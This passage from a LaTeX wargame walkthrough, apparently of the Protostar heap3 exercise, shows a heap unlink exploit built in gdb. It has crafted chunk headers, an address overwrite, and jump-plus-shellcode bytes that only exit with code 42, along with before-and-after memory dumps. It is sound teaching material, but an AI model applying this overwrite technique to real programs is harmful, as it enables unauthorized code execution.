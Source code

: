 The large stream of \texttt{0x90} bytes is simply so we can be sure our short jump
will indeed jump over the corruption from \texttt{unlink}. We'll wind up having
more bytes here than strictly necessary, but we're still well within the limits on
our chunk. Also, since this is 24 bytes long, and we'll pad with 4 bytes in the beginning,
we'll pad with 4 bytes on the end of this to satisfy filling chunk \texttt{c} with
32 bytes (24 + 4 + 4 = 32). Alright, let's set up this last portion of our
buffer and try it out.

\begin{lstlisting}
(gdb) r `python -c 'print("A"*32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff")'` `python -c 'print("\x04\xc0\x04\x08"+"\x50\xf7\xff\xbf"+"\x5c\xc0\x04\x08")'` `python -c 'print("\xf0"*4+"\xeb\x0c\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x31\xdb\xb3\x2a\xb0\x01\xcd\x80"+"\x90"*4)'`
Breakpoint 1, main (argc=4, argv=0xbffff804) at heap3/heap3.c:24
24      heap3/heap3.c: No such file or directory.
        in heap3/heap3.c
(gdb) x/32x 0x0804c000
0x804c000:      0x00000000      0x00000029      0x41414141      0x41414141
0x804c010:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c020:      0x41414141      0x41414141      0xfffffffc      0xfffffffc
0x804c030:      0x0804c004      0xbffff750      0x0804c05c      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000029      0xf0f0f0f0      0x90900ceb
0x804c060:      0x90909090      0x90909090      0xc0319090      0x2ab3db31
0x804c070:      0x80cd01b0      0x90909090      0x00000000      0x00000f89
(gdb) c
Continuing.

Breakpoint 2, main (argc=4, argv=0xbffff804) at heap3/heap3.c:26
26      in heap3/heap3.c
(gdb) x/32x 0x0804c000
0x804c000:      0x00000000      0x00000029      0x41414141      0x41414141
0x804c010:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c020:      0x41414141      0xfffffff8      0xfffffffc      0xfffffffc
0x804c030:      0xfffffff9      0x0804b194      0x0804b194      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000fb1      0x00000000      0x90900ceb
0x804c060:      0x90909090      0xbffff750      0xc0319090      0x2ab3db31
0x804c070:      0x80cd01b0      0x90909090      0x00000000      0x00000f89
(gdb) c
Continuing.
dynamite failed?

Program exited with code 052.
(gdb) print 052
$1 = 42
\end{lstlisting}

